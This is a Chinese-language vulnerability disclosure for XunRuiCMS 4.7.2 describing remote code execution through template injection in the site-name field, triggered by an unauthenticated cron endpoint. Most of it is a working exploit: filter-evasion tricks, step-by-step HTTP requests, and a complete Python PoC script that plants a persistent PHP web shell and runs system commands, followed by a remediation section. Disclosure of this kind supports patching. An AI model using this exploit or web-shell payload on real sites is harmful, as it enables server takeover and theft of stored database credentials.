

# 迅睿CMS / XunRuiPHP 4.7.2 —— 匿名触发的远程代码执行（站点名称 + 通知模板编译）

- **产品**：迅睿CMS（XunRuiPHP）
- **版本**：4.7.2
- **CWE**：CWE-94 / CWE-1336（代码生成 / 模板引擎注入）
- **影响**：以 Web 服务用户身份远程执行任意代码
- **权限要求**：**触发侧未授权**——任务执行器 `index.php?s=api&c=run&m=index` 在 `SYS_CRON_AUTH=0`（默认）下**无需登录**即完成编译与 `require`；仅 payload 的写入是一次性后台动作
- **攻击链**：站点设置 → 通知设置 → 任意「会入队通知」的后台动作 → **匿名**任务执行器 → 模板编译
- **涉及代码**
  - `dayrui/Fcms/Library/Notice.php` —— `_get_tpl_content()`：把 `{SITE_NAME}` 替换进模板**源码**，再编译（`code2php()` + `require`）
  - `dayrui/Fcms/Model/Cron.php` —— `add_cron()`（入队）
  - `dayrui/Fcms/Control/Api/Run.php` —— 任务执行器（`index.php?s=api&c=run&m=index`）
  - 站点名称由站点配置保存逻辑**原样入库**
- **测试环境**：迅睿CMS 4.7.2 · PHP 7.4.33 · Apache 2.4 (Debian) · MySQL 8.0.46 · Web 根目录 `/var/www/html`

## 概述

业务数据（站点名称）在被替换进通知模板的**源码**之后再参与编译与 `require`。只要站点名称里带一个 `{php …}` 标签，**任何一次匿名请求**打到任务执行器都会让它以 PHP 执行：`index.php?s=api&c=run&m=index` 在 `SYS_CRON_AUTH=0`（默认）下无需登录即完成编译与 `require`。payload 的写入是一次性后台动作，而**触发执行的那次请求不需要任何认证**；payload 还能穿过应用的全部输入过滤。

## 根因

```php
// dayrui/Fcms/Library/Notice.php  →  _get_tpl_content($siteid, $name, $type, $data)
$content_code = file_get_contents($my);                 // 如 config/notice/email/module_content_delete.html
if (isset(\Phpcmf\Service::C()->site_info[$siteid])) {
    $site_info    = \Phpcmf\Service::C()->site_info[$siteid];
    $content_code = str_replace('{SITE_NAME}', $site_info['SITE_NAME'], $content_code);   // ← 原始值写进模板源码
    $content_code = str_replace('{SITE_URL}',  $site_info['SITE_URL'],  $content_code);
}
ob_start();
extract($data, EXTR_OVERWRITE);
$require_file = \Phpcmf\Service::V()->code2php($content_code);   // ← 编译 {php …}/{code …} 后 require
```

`config/notice/email/*.html` 下 13 个邮件通知模板都含 `{SITE_NAME}`，任一个都可作为“渲染载体”。由于站点名称是在**编译之前**写入模板源码的，攻击者控制的是模板源码本身，而不只是变量取值。

队列路径：

1. `Notice::send_notice()` → `Cron::add_cron()`（`Fcms/Model/Cron.php:11`）——若 `cache/config/run_lock.php` 不存在，CMS 会尝试线程自请求，否则任务留在队列。
2. `Fcms/Control/Api/Run.php`（`index.php?s=api&c=run&m=index&num=20&is_cdn=1`）执行队列；`SYS_CRON_AUTH=0` 时该入口**无需登录**。它受 `cache/config/cron_run_time.php` 的 100 秒节流、只取队列前 20 条，而 `&is_cdn=1` 会让 `run_cron()` 在同一请求内同步调用 `do_cron()`。
3. `Notice::cron_notice()` → `_send_email()` → `_get_tpl_content()` → 编译 + `require` → **代码执行**。

`_get_tpl_content()` 在 `Email::sendmail()` **之前**执行，因此**无需配置 SMTP**；之后的 SMTP 失败只会记入 `dr_cron.error`（见第 4 步说明）。

## Payload 约束（实测）

| 约束 | 原因 | 应对 |
|---|---|---|
| 不能含 `<`、`>`、`;` | 原始请求数组经 `Input::get('', true)` → `xss_clean()` 赋给模板变量时被破坏 | 用 `chr(60)` 拼出开始标签，避免比较符与语句分隔符 |
| 不能出现字面量 `eval(` | CI4 `Security` 会把 `eval(…)` 改写成 `eval&#40;…&#41;` | 需要 eval 型 payload 时拆串：`'ev'.'al'.chr(40)` |
| `file_put_contents(`、`chr(` **不被过滤** | —— | 用于落地 shell |

## 验证过程（PoC）

后台入口：后台通过安装时生成的**随机命名入口文件**访问（文件内容就是 `define('IS_ADMIN', TRUE); require('index.php');`）；本靶场为 `admin82b8542a912e.php`，而默认的 `admin.php` 返回 `404`。下文所有后台请求均写作 `/<entry>.php`。

第 1 步 —— 把 payload 写进站点名称（需要后台 Cookie）：

```
POST /<entry>.php?s=cms&c=site_config&m=index HTTP/1.1
Host: <target>
Cookie: <后台会话>
Content-Type: application/x-www-form-urlencoded

data[SITE_NAME]=ZZSITE_{php echo file_put_contents($_SERVER['DOCUMENT_ROOT'].'/zz_shell.php',
   chr(60).'?php echo '.chr(96).'$_GET[0]'.chr(96).';');}
&data[SITE_CLOSE]=0&data[SITE_INDEX_HTML]=0&data[SITE_LANGUAGE]=zh-cn
&data[SITE_TEMPLATE]=default&data[SITE_TIMEZONE]=8&data[SITE_THEME]=default
-> {"code":1,"msg":"操作成功"}
```

该值**原样入库**（`cache/config/site.php` 可读到完整 payload）。

第 2 步 —— 开启通知的邮件通道，并用**免验证码**的后台动作入队任务（不改口令、不碰任何原有数据）：

```
POST /<entry>.php?s=member&c=setting_notice&m=add HTTP/1.1
Host: <target>
Cookie: <后台会话>
Content-Type: application/x-www-form-urlencoded

data[module_content_delete][email]=1
-> {"code":1,"msg":"操作成功"}          （落库为 dr_member_setting.name='notice'）

POST /<entry>.php?s=news&c=home&m=add&catid=200 HTTP/1.1
Host: <target>
Cookie: <后台会话>
Content-Type: application/x-www-form-urlencoded

data[title]=zztmp&data[content]=zz&catid=200&data[catid]=200&id=0&module=news
-> {"code":1,"msg":"操作成功","data":{"id":5160,…}}      （刚创建文章的 id）

POST /<entry>.php?s=news&c=home&m=del&catid=200 HTTP/1.1
Host: <target>
Cookie: <后台会话>
Content-Type: application/x-www-form-urlencoded

ids[]=5160
-> {"code":1,"msg":"所选内容已被放入回收站中"}   → App/Cms/Models/Content.php:1146
                                                  send_notice('module_content_delete', $row)
```

第 3 步 —— 同步驱动任务队列：

```
GET /index.php?s=api&c=run&m=index&num=20&is_cdn=1 HTTP/1.1
Host: <target>
-> 任务执行成功：Run 1
```

第 4 步 —— 观测结果：

```
GET /zz_shell.php?0=id
HTTP/1.1 200 OK
uid=1000(www-data) gid=1000(www-data) groups=1000(www-data)

GET /zz_shell.php?0=uname%20-a
Linux 34353576c09a 6.8.0-138-generic #138~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Fri Aug 7 13:43:15 UTC x86_64 GNU/Linux

dr_cron（执行后）：
id=5161 type=notice status=1 error=["邮件发送失败：无邮件smtp配置"]
```

关于上面的邮件报错：它是必然的且无关紧要——通知的**通道就是邮件**，所以任务会记录 SMTP 报错；但 `_get_tpl_content()`（模板**编译 + require**，即真正执行代码的地方）在 `Email::sendmail()` **之前**就已经跑完，这正是**不需要 SMTP** 的原因。主要证据是 `Run 1` 与 shell 输出；`dr_cron` 那行只说明队列已处理该任务。

`1.py` 在靶场的完整实测（使用预先获取的后台会话 Cookie 与随机入口文件名，不做交互式登录，因此不涉及登录验证码；除写入 payload 与还原站点名称外不修改其他数据）：

```
entry          HTTP 200  <!--当前页面的模板文件是：/var/www/html/dayrui/Fcms/View/index.html …-->
session        HTTP 200  <!--当前页面的模板文件是：/var/www/html/dayrui/App/Cms/Views/site_config.html …-->
write-site     HTTP 200  {"code":1,"msg":"操作成功","data":[]}
enable-notice  HTTP 200  {"code":1,"msg":"操作成功","data":[]}
content-add    HTTP 200  {"code":1,"msg":"操作成功","data":{"id":5160,"url":"","catid":200,…}}
content-del    HTTP 200  {"code":1,"msg":"所选内容已被放入回收站中","data":[]}
cron-run       HTTP 200  任务执行成功：Run 1
shell          HTTP 200  uid=1000(www-data) gid=1000(www-data) groups=1000(www-data)
```

## PoC 脚本（`1.py`）

```
python 1.py http://<target> "<cookie>" admin82b8542a912e.php
```

```python
import sys, re, requests

b = sys.argv[1].rstrip("/")
ck = sys.argv[2]
e = sys.argv[3] if len(sys.argv) > 3 else "admin.php"
catid, mod = "200", "news"
s = requests.Session()
s.headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 Chrome/120"
s.headers["Cookie"] = ck
a = b + "/" + e


def p(label, r, n=100):
    print("%-14s HTTP %-4s %s" % (label, r.status_code, r.text[:n].replace("\n", " ")), flush=True)
    return r


if p("entry", s.get(a, allow_redirects=False)).status_code == 404:
    print("admin entry not found: /%s" % e)
    sys.exit(1)

r = p("session", s.get(a + "?s=cms&c=site_config&m=index", allow_redirects=False))
if r.status_code != 200:
    print("invalid session: cookie expired or User-Agent mismatch")
    sys.exit(1)

pay = "ZZSITE_{php echo file_put_contents($_SERVER['DOCUMENT_ROOT'].'/zz_shell.php',chr(60).'?php echo '.chr(96).'$_GET[0]'.chr(96).';');}"
d = {"data[SITE_NAME]": pay, "data[SITE_LANGUAGE]": "zh-cn", "data[SITE_TEMPLATE]": "default",
     "data[SITE_THEME]": "default", "data[SITE_CLOSE]": "0", "data[SITE_INDEX_HTML]": "0",
     "data[SITE_TIMEZONE]": "8"}
h = s.get(a + "?s=cms&c=site_config&m=index").text
m = re.search(r'name="data\[SITE_NAME\]"[^>]*?value="([^"]*)"', h)
orig = m.group(1) if m else ""
if '"code":1' not in p("write-site", s.post(a + "?s=cms&c=site_config&m=index", data=d,
                                            allow_redirects=False)).text:
    print("write failed: invalid session")
    sys.exit(1)

p("enable-notice", s.post(a + "?s=member&c=setting_notice&m=add",
                          data={"data[module_content_delete][email]": "1"}))

au = '%s&c=home&m=add&catid=%s' % (mod, catid)
h = s.get(a + "?s=" + au).text
d = dict(re.findall(r'name="([^"]+)"[^>]*?value="([^"]*)"', h))
for k, body in re.findall(r'name="([^"]+)"(.*?)</select>', h, re.S):
    m = re.search(r'<option[^>]*selected[^>]*value="([^"]*)"', body)
    d.setdefault(k, m.group(1) if m else "")
d.update({"data[title]": "zztmp", "data[content]": "zz",
          "catid": catid, "data[catid]": catid, "id": "0", "module": mod})
r = p("content-add", s.post(a + "?s=" + au, data=d))
m = re.search(r'"id":(\d+)', r.text)
cid = m.group(1) if m else "0"
try:
    p("content-del", s.post(a + "?s=%s&c=home&m=del&catid=%s" % (mod, catid),
                             data=[("ids[]", cid)], timeout=60))
except requests.exceptions.ReadTimeout:
    print("content-del timeout", flush=True)

r = p("cron-run", s.get(b + "/index.php?s=api&c=run&m=index&num=20&is_cdn=1"))
if "Run Ok" in r.text:
    print("Run Ok = 0 tasks")
r = p("shell", s.get(b + "/zz_shell.php?0=id"))
if r.text.strip() == "":
    p("shell", s.get(b + "/zz_shell.php?0=whoami"))

if orig:
    p("restore-name", s.post(a + "?s=cms&c=site_config&m=index",
                             data={"data[SITE_NAME]": orig}, allow_redirects=False))
print("\ndone")
```

操作提示：后台会话与 User-Agent 绑定（且改密会让旧会话失效），请使用你正在使用的客户端的 Cookie；入口名写错时写入请求会返回 `404`、执行器随后回答 `Run Ok`（**0** 个任务）。单进程 FastCGI 下 `content-del` 可能客户端超时（CMS 会做 cron 自请求），服务端仍会完成删除；多进程 Apache 正常返回。脚本会在覆盖前记录原站点名称，拿到 shell 后**只还原该字段**；落地的 shell 保留不删。




## 与数据库驱动无关

本链路不依赖具体 DBMS：站点名称经查询构造器读写、通知模板由库中**值**编译，`dr_cron` 队列行同样与驱动无关。CMS 内置 `MySQLi`、`SQLite3`、`Postgre`、`SQLSRV` 四种驱动且表结构由同一份 PHP 字段定义生成，因此同一 payload 对四者都成立。

## 影响

以 Web 服务用户（`www-data`）身份执行任意代码，且完全由普通后台操作触发（站点配置 + 通知开关 + 任意会入队通知的事件，如删内容/登录/注册/支付）。落地的 PHP 文件是持久后门（`/zz_shell.php?0=<命令>`），并可读取应用配置（含 `config/database.php` 中明文数据库凭据）。

## 修复建议

1. 不要把业务数据替换进模板**源码**。应先编译通知模板，再替换转义后的值；或把站点名称以变量形式传给模板（`{$site_name}` 走 `View::assign`），而不是文本 `str_replace`。
2. 对站点信息字段（站点名称、关站提示等）剥离/转义模板控制字符（`{`、`}`、`$`），确保其无法进入模板编译器。
3. 限制站点配置的写入权限到专用角色，并对“之后会被模板引擎渲染”的取值做审计。
4. 任务执行器（`index.php?s=api&c=run&m=index`）必须鉴权，强制定义 `SYS_CRON_AUTH`，生产环境移除 `is_cdn` 同步执行分支。
5. 不要对数据驱动的内容做 `eval` 式编译：`{php}` / `{code}` 标签仅应存在于受信任的静态模板文件。

## 参考

- 迅睿CMS：https://www.xunruicms.com/
- CWE-94：https://cwe.mitre.org/data/definitions/94.html
- CWE-1336：https://cwe.mitre.org/data/definitions/1336.html

> 复现均在已授权的自建靶场环境完成，仅用于漏洞披露与修复。
